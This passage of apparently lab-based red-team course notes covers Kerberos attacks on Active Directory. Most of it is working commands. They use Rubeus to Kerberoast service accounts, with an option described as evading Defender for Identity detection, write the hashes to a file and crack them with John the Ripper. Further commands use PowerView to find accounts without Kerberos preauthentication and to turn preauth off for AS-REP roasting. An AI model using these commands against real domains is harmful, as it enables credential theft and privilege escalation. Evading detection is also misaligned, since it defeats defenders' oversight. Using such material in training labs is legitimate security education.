 Use Rubeus to list Kerberoast stats:
```powershell
Rubeus.exe kerberoast /stats
```

Use Rubeus to request a TGS:
```powershell
Rubeus.exe kerberoast /user:svcadmin /simple
```

> **To avoid detections based on Encryption Downgrade for Kerberos EType** (used by likes of MDI - 0x17 stands for rc4-hmac)

Look for Kerberoastable accounts that only support RC4_HMAC:
```powershell
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
```

Kerberoast all possible accounts:
```powershell
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

Crack ticket using John the Ripper:
```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

Learning Objective 14

- Using the Kerberoast attack, crack password of a SQL server service account.



## Targeted Kerberoasting - AS-REPs

- If a user's UserAccountControl settings have **Do not require Kerberos preauthentication** enabled i.e. Kerberos preauth is disabled, its possible to grab user's crackable AS-REP and brute-force it offline
- With sufficient rights (**GenericWrite or GenericAll**), Kerberos preauth can be forced disabled as well

**Enumerating accounts with Kerberos Preauth disabled**

Using PowerView:
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```

Using ActiveDirectory module:
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

**Force disable Kerberos Preauth**:

Let's enumerate the permissions for RDPUsers on ACLs using PowerView:
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"} 
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
Get-DomainUser -PreauthNotRequired -Verbose
```
